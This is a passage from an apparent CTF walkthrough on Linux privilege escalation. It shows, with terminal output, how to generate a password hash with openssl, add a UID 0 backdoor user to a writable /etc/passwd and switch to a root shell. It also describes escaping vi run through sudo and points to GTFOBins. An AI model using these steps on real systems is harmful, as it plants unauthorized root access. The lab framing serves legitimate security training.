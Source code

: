 Before we add our new user, we first need to create a compliant password hash to add! We do this by using the command: **"openssl passwd -1 -salt [salt] [password]"**

What is the hash created by using this command with the salt, **"new"** and the password **"123"**?

```sh
user7@polobox:/home/user3$ openssl passwd -1 -salt new 123
$1$new$p7ptkEKU1HnaHpRtzNizS1
```

Great! Now we need to take this value, and create a new root user account. What would the /etc/passwd entry look like for a root user with the username "new" and the password hash we created before?

```sh
#username:passwordhash:0:0:root:/root:/bin/bash
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash

user7@polobox:/home/user3$ su new
Password:
Welcome to Linux Lite 4.4

You are running in superuser mode, be very careful.

Sunday 10 October 2021, 01:35:16
Memory Usage: 343/1991MB (17.23%)
Disk Usage: 6/217GB (3%)

root@polobox:/home/user3#
```


## 7.Escapting Vi Editor

**Sudo -l**



This exploit comes down to how effective our user account enumeration has been. Every time you have access to an account during a CTF scenario, you should use **"sudo -l"** to list what commands you're able to use as a super user on that account. Sometimes, like this, you'll find that you're able to run certain commands as a root user without the root password. This can enable you to escalate privileges.

**Escaping Vi**

Running this command on the "user8" account shows us that this user can run vi with root privileges. This will allow us to escape vim in order to escalate privileges and get a shell as the root user!

**Misconfigured Binaries and GTFOBins
**

If you find a misconfigured binary during your enumeration, or when you check what binaries a user account you have access to can access, a good place to look up how to exploit them is GTFOBins. GTFOBins is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions. It provides a really useful breakdown of how to exploit a misconfigured binary and is the first place you should look if you find one on a CTF or Pentest.

https://gtfobins.github.io/

